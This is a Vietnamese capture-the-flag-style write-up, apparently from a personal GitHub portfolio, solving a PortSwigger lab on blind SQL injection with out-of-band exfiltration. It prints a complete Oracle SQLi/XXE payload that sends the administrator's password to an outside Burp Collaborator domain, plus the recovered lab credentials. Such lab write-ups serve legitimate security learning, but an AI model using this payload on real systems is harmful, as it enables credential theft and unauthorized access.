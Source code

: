 # Write-up: Blind SQL injection with out-of-band data exfiltration

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi bằng kỹ thuật Out-Of-Band để gửi DNS lookup tới Burp Collaborator và lấy mật khẩu của `administrator`

### Mục tiêu
- Khai thác mật khẩu và đăng nhập dưới quyền `administrator`

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=vl46jW3NPwS2V2r7'
    ```
    - **Kết quả**: Response không thay đổi hay hiển thị lỗi, xác nhận đây là Blind SQLi
        ![lỗi](./images/error.png)

2. **Tạo Payload**
- Mở Burp Collaborator client trong Burp Suite, sao chép subdomain `ct9pkrzbal5zf0nyer90x4d3xu3lrbf0.oastify.com`

- Tạo payload kết hợp SQLi và XXE (XML External Entity) để kích hoạt DNS lookup và gửi mật khẩu về subdomain của Burp Collaborator. Payload được gửi bằng Repeater 
    ```
    ' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.ct9pkrzbal5zf0nyer90x4d3xu3lrbf0.oastify.com/"> %remote;]>'),'/l') FROM dual)
    ```
    ![send](./images/send.png)
- **Kết quả**: nhận được mật khẩu `cjmpp53lzxnc5oaxkplg`
    ![pasword](./images/pass.png)

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `administrator` : `cjmpp53lzxnc5oaxkplg` và hoàn thành lab
    ![vào](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection bằng kĩ thuật Out-Of-Band.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.
